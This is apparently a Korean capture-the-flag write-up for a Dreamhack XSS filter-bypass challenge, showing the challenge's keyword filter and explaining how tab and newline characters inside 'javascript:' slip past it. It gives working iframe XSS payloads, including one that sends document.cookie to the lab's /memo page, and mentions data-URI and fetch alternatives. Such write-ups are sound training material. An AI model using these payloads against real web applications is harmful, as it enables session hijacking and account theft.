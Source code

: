 ## XSS Filtering Bypass Advanced
<hr style="border-top: 1px solid;"><br>

```python
def xss_filter(text):
    _filter = ["script", "on", "javascript"]
    for f in _filter:
        if f in text.lower():
            return "filtered!!!"

    advanced_filter = ["window", "self", "this", "document", "location", "(", ")", "&#"]
    for f in advanced_filter:
        if f in text.lower():
            return "filtered!!!"

    return text
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

필터링 단어들을 공백으로 치환하지 않고 filtered란 단어를 출력하게 하였다.

<a href="https://dreamhack.io/lecture/courses/318" target="_blank">Exploit Tech: XSS Filtering Bypass - I</a>에서 보면 URI 정규화 관련 내용이 나온다.

정규화 과정을 이용해서 접근해보았다. ```%09(\t), %0a(\n)```을 이용하면 된다.
: ```<iframe src="javascri%09pt:alert`1`">``` --> alert(1) 실행된다.

<br>

위의 과정까지 도달하는데 굉장히 오래 걸렸다... ㅠ

테스트 쿠키를 만든 뒤 ```/vuln``` 페이지에서 아래의 페이로드를 보내면 쿠키 값이 메모장에 출력된다.
: ```<iframe src="javascri%09pt:locatio%09n.href='/memo?memo='%2bdocumen%09t.cookie">```

flag 페이지에서 입력할 때 아래 payload 그대로 넣어야 동작한다. **(```/vuln``` 페이지에 페이로드를 넣고 소스페이지에서 확인)**

<br>

![payload](https://user-images.githubusercontent.com/52172169/166133877-6fe1b3c9-8b61-49ae-b744-e1a279adbbdf.png)

<br>

최종 payload
: ```<iframe src="javascrip	t:locatio	n.href='/memo?memo=' documen	t.cookie">```

<br>

다른 풀이로는 ```data:[<mediatype>][;base64],<data>```를 이용해서 풀 수도 있다.
: <a href="https://developer.mozilla.org/ko/docs/Web/HTTP/Basics_of_HTTP/Data_URIs" target="_blank">developer.mozilla.org/ko/docs/Web/HTTP/Basics_of_HTTP/Data_URIs</a>

```<svg>``` 태그와 ``<use>``` 태그를 이용해서 ```<use>```의 ```href``` 속성에서 data URI를 이용해 푼 풀이가 있었다.

또한 자바스크립트의 ```fetch``` 함수를 이용해서 원격 API를 호출해서 풀 수도 있다.

<br>

+ Flag : ```flag=DH{[redacted]}```

<br><br>
<hr style="border: 2px solid;">
<br><br>
